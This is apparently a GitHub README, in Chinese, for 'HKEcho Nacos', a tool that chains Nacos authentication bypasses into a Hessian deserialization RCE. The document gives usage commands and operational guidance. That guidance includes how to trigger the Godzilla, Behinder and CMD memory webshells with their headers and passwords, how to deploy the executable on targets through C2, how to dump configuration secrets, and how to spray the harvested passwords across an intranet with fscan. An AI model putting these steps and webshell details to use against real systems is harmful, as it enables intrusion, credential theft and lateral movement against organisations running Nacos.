 # HKEcho Nacos快速利用工具 v0.1

注意：工具仅供学习使用，请勿滥用，否则后果自负！
本工具可在Win11或Cmder等命令行工具上正常运行颜色打印，Win10等系统命令行会输出颜色报错，不影响功能正常使用
```
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
```

工具文件夹中HKEcho_Nacos.exe，nacosleak.exe均已通过upx压缩加壳减小体积。担心后门可自行编译或前往原项目地址下载后替换。

## 原理

本工具支持检测以下漏洞：

```
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测nacos默认口令
2、任意用户添加
3、任意用户添加UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认JWT任意用户添加
6、JWT_Secret_Key硬编码绕过
7、Identity硬编码绕过
8、QVD-2023-6271身份认证绕过
一旦某个漏洞获取账号密码后，会调用a1phaboy师傅写的nacosleak读取配置文件

9、Nacos_Jraft_Hessian反序列化漏洞
程序会调用c0olw师傅写的NacosRce打一遍Jraft_Hessian反序列化漏洞（本工具在调用这个NacosRce工具前会判断Java环境，若不存在，则告警不执行）
```

## 安装

```
pip install -r requirements.txt
```

## 食用

```
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个URL:http://127.0.0.1:8848
  -f FILENAME  批量检测,包含URL的文本文件
```

**1、单个目标检测：**

```
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

![image-20231114180219893](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114180219893.png)

**2、批量目标检测**：

新建txt文件，一行放一个Nacos的URL

```
python HKEcho_Nacos.py -f target.txt
```

![image-20231114191212752](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114191212752.png)

**3、特殊场景下使用**

注意：HKEcho_Nacos.exe命令行界面在win11下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传python打包的HKEcho_Nacos.exe到C2上使用，注意，单纯上传HKEcho_Nacos.exe运行，会对内网目标nacos添加一个账号，不会对目标进行配置文件导出和检测Nacos_Jraft_Hessian反序列化漏洞。若想导出配置文件，可单独上传nacosleak.exe进行读取。

![image-20231115095419466](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095419466.png)

![image-20231115095310757](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095310757.png)

或者如下图直接将HKEcho_Nacos.exe与nacosleak.exe通过C2上传到目标服务器上同一目录下，直接执行HKEcho_Nacos.exe会自动调用nacosleak.exe

![image-20231115095608455](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115095608455.png)

同理，若想检测检测Nacos_Jraft_Hessian反序列化漏洞，同理可以将NacosRce压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce太大了。

![image-20231115100233567](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115100233567.png)

## Nacos后利用

### Nacos配置文件

上述利用完成后，会在/results/ip_port/public目录下生成目标站点的配置文件，a1phaboy师傅特别将ak/sk,password关键字提取了出来：

![image-20231114183758207](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231114183758207.png)

我们可以在内网可以通过该密码本快速爆破，比如利用fscan等工具

```
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

一、冰蝎内存马：

```
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
```

二、哥斯拉内存马：

```
1、需要设置请求头x-client-data:godzilla
2、设置Referer:https://www.google.com/
3、路径随意
4、密码是pass 和 key
```

三、CMD内存马：
```
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令
```

#### **后渗透**

后渗透利用pap1rman师傅的哥斯拉nacos后渗透插件-postnacos

MakeToken

![250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b.png)

将生成后的token 保存进浏览器cookie 格式 token:{xxx}

![250532141-60089b8d-fa3d-4584-bc16-90dc5423d486](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250532141-60089b8d-fa3d-4584-bc16-90dc5423d486.png)

**Adduser**

![250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f.png)

添加一个账号后，用nacosleak单独把配置文件读取下来。

```
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在github下载有漏洞的版本

https://github.com/alibaba/nacos/releases

![image-20231115102526342](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115102526342.png)

![image-20231115102620390](https://github.com/HKEcho5213/HKEcho_Nacos/blob/main/images/image-20231115102620390.png)

## 参考链接

致谢：

https://github.com/Pizz33/nacos_vul

https://github.com/c0olw/NacosRce

https://github.com/pap1rman/postnacos

